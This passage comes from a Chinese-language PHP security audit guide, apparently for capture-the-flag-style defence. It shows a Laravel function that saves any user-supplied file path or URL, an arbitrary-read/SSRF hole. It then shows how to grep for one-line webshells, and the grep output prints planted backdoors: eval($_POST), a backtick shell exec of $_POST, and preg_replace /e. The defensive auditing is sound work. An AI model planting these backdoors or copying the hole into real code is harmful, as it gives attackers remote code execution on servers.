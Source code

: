         $data = Input::only('resolve_file');

        $content = @file_get_contents($data['resolve_file']);
        if ($content)
        {
            $extension       = 'png';
            $folderName      = '/uploads/images/' . date("Ym", time()) .'/'.date("d", time()) .'/'. Auth::user()-&gt;id;
            $destinationPath = public_path() . $folderName;
            $safeName        = str_random(10).'.'.$extension;
            @mkdir($destinationPath, 0755, true);
            @file_put_contents($destinationPath .'/'. $safeName, $content);
            $resp['file_path'] = $folderName .'/'. $safeName;
            $resp['msg'] = "Succeeded!";
            $resp['success'] = true;
        }
        return $resp;
    }</pre>

## 0x01 审计与防御方式 {.md-end-block.md-heading}

### 常见一句话木马 {.md-end-block.md-heading}

<span class="md-line md-end-block">可以通过grep或find等命令搜索相关关键字（如<span spellcheck="false"><code>eval, system, passthru, $_POST, $_REQUEST</code></span>）等，来快速定位相关位置，随后对源码进行审查。这类木马通常不会影响程序运行逻辑，因此可以直接删除相关代码。</span>

<pre class="lang:default decode:true">$ grep -re eval
vendor/d11wtq/boris/lib/Boris/EvalWorker.php:        $__result = eval($__input);
vendor/d11wtq/boris/lib/Boris/EvalWorker.php:        eval($__hook);
app/template/3.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
app/template/1.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
app/template/2.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";

$grep -re \$_POST
bootstrap/compiled.php:        $request = self::createRequestFromFactory($_GET, $_POST, array(), $_COOKIE, $_FILES, $_SERVER);
bootstrap/compiled.php:        $_POST = $this-&gt;request-&gt;all();
bootstrap/compiled.php:        $request = array('g' =&gt; $_GET, 'p' =&gt; $_POST, 'c' =&gt; $_COOKIE);
bootstrap/autoload.php:echo `$_POST[checker]`;
public/packages/frozennode/administrator/js/ckeditor/samples/assets/posteddata.php:if (!empty($_POST))
...
app/views/errors/404.blade.php:@preg_replace("/[pageerror]/e", $_POST['notfound'], "saft");
app/storage/views/dde1e00e577ea930001955e78ec38ca4:@preg_replace("/[pageerror]/e", $_POST['notfound'], "saft");
app/template/3.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
app/template/1.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
app/template/2.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";</pre>

### 常见大马 {.md-end-block.md-heading}
